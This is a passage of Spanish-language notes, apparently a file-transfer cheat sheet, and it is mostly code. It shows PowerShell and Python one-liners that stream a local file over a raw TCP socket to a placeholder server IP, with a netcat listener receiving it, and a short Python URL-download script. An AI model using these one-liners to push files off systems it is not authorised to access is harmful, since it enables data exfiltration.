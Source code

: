```powershell
(New-Object System.Net.Sockets.TcpClient("IP_DEL_SERVIDOR", 8888)).GetStream() | % { $file = [System.IO.File]::OpenRead("ruta_del_archivo_a_enviar.txt"); $buffer = New-Object byte[] 1024; while ($bytesRead = $file.Read($buffer, 0, $buffer.Length)) { $_.Write($buffer, 0, $bytesRead) }; $file.Close(); $_.Close(); $_.Dispose() }
```

DESTINO (LINUX)

```bash
nc -l -p 8888 > archivo_recibido.txt
```

---

- USANDO PYTHON

ORIGEN (WINDOWS )

```powershell
python.exe -c "import socket; s=socket.socket(); s.connect(('IP_DEL_SERVIDOR', 8888)); f=open('ruta_del_archivo_a_enviar.txt', 'rb'); s.sendall(f.read()); f.close(); s.close()"
```

DESTINO (LINUX)

```bash
nc -l -p 8888 > archivo_recibido.txt
```

### PYTHON

script.py

```python
import urllib.request
import argparse
import os

def descargar_archivo(url, filename=None):
    ## Si no se proporciona nombre de archivo, se toma el nombre de la URL
    if filename is None:
        filename = os.path.basename(url)

    ## Descargar el archivo
    try:
        urllib.request.urlretrieve(url, filename)
        print(f'Archivo descargado correctamente como: {filename}')
    except Exception as e:
        print(f'Error al descargar el archivo: {e}')

if __name__ == "__main__":
    ## Configurar los argumentos
    parser = argparse.ArgumentParser(description="Descargar un archivo desde una URL")
    parser.add_argument("url", help="URL del archivo a descargar")
    parser.add_argument("-f", "--filename", help="Nombre del archivo de salida (opcional)")

    ## Parsear los argumentos
    args = parser.parse_args()

    ## Llamar a la función para descargar el archivo
    descargar_archivo(args.url, args.filename)

```
